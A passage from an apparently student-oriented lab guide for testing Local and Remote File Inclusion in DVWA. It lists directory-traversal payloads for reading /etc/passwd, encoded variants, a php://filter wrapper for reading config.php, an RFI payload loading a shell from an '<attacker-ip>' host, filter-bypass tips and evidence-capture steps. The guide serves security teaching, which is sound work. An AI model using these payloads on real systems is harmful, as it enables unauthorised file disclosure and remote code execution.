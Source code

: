 - DVWA has pages suitable for LFI testing under the **File Inclusion** module (or via custom vulnerable pages). Enable `low` security and follow the same steps: identify include param, attempt `../` traversal, capture evidence.
- OWASP Juice Shop may not contain LFI but has different labs — use appropriate lab exercises.

---

## 9) Useful payloads & encoding tips (safe, exam-friendly)

**Directory traversal (examples)**

- `?page=../../../../etc/passwd`
- `?page=..%2F..%2F..%2F..%2Fetc%2Fpasswd` (URL-encoded)
- Try different depths if initial attempts fail.

**PHP wrappers (lab-only, optional)**

- `php://filter/convert.base64-encode/resource=../config.php` — returns base64 encoded file contents.

**RFI (lab-only example)**

- `?page=http://<attacker-ip>:8000/attacker_shell.php`

**Notes**

- If the app normalizes paths or blocks `..`, try double-encoding or alternative encodings — but in exam keep attempts minimal and explain additional techniques verbally if asked.

---

## 10) What to capture & sample evidence filenames (put these in `~/expt09/evidence/`)

1. `evidence/01_lfi_request.txt` — saved raw request used to test LFI.
2. `evidence/02_lfi_passwd.png` — screenshot showing `/etc/passwd` or other harmless file contents returned (mask sensitive data if required).
3. `evidence/03_rfi_request.txt` — raw request trying to include remote file (if attempted).
4. `evidence/04_rfi_response.png` — screenshot of remote file contents included in response (if successful).
5. `evidence/05_rfi_failed.txt` — response showing `allow_url_include` disabled (if RFI blocked).
6. `evidence/06_php_wrapper.txt` — output from php://filter attempt (if used).
7. `evidence/07_upload_include_notes.txt` — notes describing why upload+include was not performed (safety) or summary of supervised test.
8. `commands.txt` — terminal commands used (curl, php -S, base64 decode, etc.).
9. `finding_summary.md` — one-page summary (template below).

**How to save:** In Burp right-click request → **Save item**. Use `gnome-screenshot -a` for screenshots.

---

## 11) Mitigations / exact phrasing for viva

Use these concise, exam-ready statements:
